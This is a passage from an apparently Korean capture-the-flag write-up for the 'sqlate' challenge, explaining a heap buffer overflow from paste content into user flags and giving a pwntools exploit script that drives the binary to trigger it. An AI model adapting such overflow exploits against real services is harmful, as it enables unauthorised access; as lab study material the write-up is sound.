 
![스크린샷 2025-01-06 오후 3.10.51.png](sqlate%20a9360c67ccb74ad581cb859e8f30f5a3/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2025-01-06_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_3.10.51.png)

- `paste.content` 와 `current_user.flags` 의 시작 주소는 `0x124` 만큼의 차이가 있다.

![스크린샷 2025-01-06 오후 3.15.09.png](sqlate%20a9360c67ccb74ad581cb859e8f30f5a3/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2025-01-06_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_3.15.09.png)

- `paste.content` 는 256 = `0x100` 바이트를 입력할 수 있는 버퍼이고, `action_update` 에서 최대 192 * 2 = 384 = `0x180` 바이트의 `Content` 를 생성할 수 있으므로, 충분히 `current_user.flags` 영역에 영향을 줄 수 있다는 것을 알 수 있다.

## 익스플로잇

---

- 위 내용을 바탕으로 작성한 `exploit.py` 이다.

```visual-basic
from pwn import *

context.log_level = 'debug'

p = process('./vuln')
# p = remote('sqlate.chal.irisc.tf', 10000)

#1 Create new Paste
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Title: ', b'iris')
p.sendlineafter(b'Language: ', b'Kor')
p.sendlineafter(b'Content: ', b'A')

#2 Update a Paste, Content -> HEX
payload = b'A' * 191
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b'content: ', payload)
p.sendlineafter(b'Title: ', b'iris')

#3 List all Pastes for BOF
p.sendlineafter(b'> ', b'4')

```